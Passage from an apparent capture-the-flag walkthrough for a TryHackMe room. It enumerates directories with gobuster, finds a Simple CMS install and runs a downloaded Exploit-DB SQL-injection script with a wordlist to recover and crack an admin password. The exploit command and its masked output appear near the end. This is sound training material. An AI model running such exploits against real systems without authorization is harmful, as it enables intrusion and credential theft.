 ```bash
2020/08/21 14:48:02 Starting gobuster
===============================================================
/simple (Status: 301)

```
This will take some time. Let's see what's that **/simple** directory about.

![We get a Simple CMS welcome page](https://imgur.com/IjeZ6cvl.png)

So we have a Simple CMS running on the machine and we even get pointed to **/simple/admin/** to log in.

![We get an admin login panel](https://imgur.com/mZDKOlYl.png)

Let's see if we can find any CVE for this CMS.

Looking on Exploit-DB we get an SQL injection CVE:

![CVE for this CMS](https://i.imgur.com/yEqkdMP.png)

Let's download this python exploit file and see what it does. In this case I renamed the exploit as **exploit.py**

First we need to make this file executable and then we can run our exploit. Also note that this script runs with **python2** and not with **python3**.

```bash
┌──(tzero86㉿tzbox)-[~/Documents/THM/easyCTF]
└─$ python exploit.py --u http://10.10.49.87/simple/ --crack -w /usr/share/wordlists/rockyou.txt

```

This script is very unreliable, it crashes a lot. In the end we should see something like this:

```bash
[*] Try: 1di
[*] Try: 1do
[+] Salt for password found: *************
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: ***********************
[+] Password cracked: ******
```

With that we are able to fully answer all questions for the room and we saw how to get the flags. I believe running **gobuster** right along with **Nmap** was the right way to go. In that case dealing with this script and cracking the password for the CMS would have given us the password for the SSH connection. Anyways, there could be other ways to go about this box. This was mine.

As usual, happy hacking.

{{< thm_badge >}}
